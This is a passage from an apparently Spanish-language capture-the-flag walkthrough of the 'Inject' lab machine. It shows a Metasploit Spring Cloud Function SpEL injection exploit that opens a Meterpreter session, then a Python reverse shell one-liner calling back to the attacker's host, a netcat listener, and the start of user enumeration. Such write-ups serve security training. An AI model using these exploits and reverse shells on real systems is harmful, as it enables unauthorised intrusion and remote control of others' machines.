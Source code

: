 ```
[msf](Jobs:0 Agents:0) >> use exploit/multi/http/spring_cloud_function_spel_injection
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/http/spring_cloud_function_spel_injection) >> set RHOST 10.129.178.241
RHOST => 10.129.178.241
[msf](Jobs:0 Agents:0) exploit(multi/http/spring_cloud_function_spel_injection) >> set LHOST 10.10.14.170
LHOST => 10.10.14.170
[msf](Jobs:0 Agents:0) exploit(multi/http/spring_cloud_function_spel_injection) >> run

[*] Started reverse TCP handler on 10.10.14.170:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Sending stage (3045348 bytes) to 10.129.178.241
[*] Meterpreter session 1 opened (10.10.14.170:4444 -> 10.129.178.241:43644) at 2023-03-12 21:25:11 -0400

(Meterpreter 1)(/) > shell
Process 76003 created.
Channel 1 created.
whoami && id
frank
uid=1000(frank) gid=1000(frank) groups=1000(frank)
```
Ahora para mayor comodidad nos pasaremos esa shell mediante reverse shell, comprobamos si esta python3 y efectivamente esta instalado.

```python
export RHOST="10.10.14.170";export RPORT=443;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
En nuestra máquina nos ponemos en escucha por el puerto 443 y nos debe llegar.

```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.170] from (UNKNOWN) [10.129.178.241] 48474
frank@inject:/$
```
Aplicamos tratamiento a la [TTY](https://h4ckerlite.github.io/posts/tty/).

## Migración de usuario
En la carpeta personal del usuario listamos carpetas escondidad

```bash
frank@inject:~$ ls -a
.  ..  .bash_history  .bashrc  .cache  .local  .m2  .profile
frank@inject:~$ 
```
la carpeta **.m2** nos llama la atención, listamos su contenido
